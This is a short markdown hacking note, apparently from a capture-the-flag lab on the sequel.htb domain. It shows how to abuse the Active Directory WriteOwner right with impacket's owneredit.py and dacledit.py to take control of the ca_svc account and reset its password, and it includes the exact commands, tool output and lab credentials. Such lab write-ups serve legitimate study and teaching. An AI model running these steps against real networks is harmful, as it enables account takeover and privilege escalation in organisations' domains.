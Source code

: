```yaml
---
tags:
  - hack
---
```

# Using `impacket`

## Abusing `WriteOwner` with `owneredit.py`

Here I'm using impacket to abuse `WriteOwner` to take over the `ca_svc` account.

 First, I'll use `owneredit.py` to modify `OwnerSid` to the account I control:

```console
$ owneredit.py -action write -new-owner ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
(venv)
```

Then I can set `FullControl` rights:

```console
$ dacledit.py -action write -rights FullControl -principal ryan -target ca_svc sequel/ryan:WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250121-141410.bak
[*] DACL modified successfully!
(venv)
```

Now I can change the account's password, among other things:

```console
$ net rpc password ca_svc password123 -U sequel/ryan%WqSZAF6CysDQbGb3 -S sequel.htb
(venv)
```
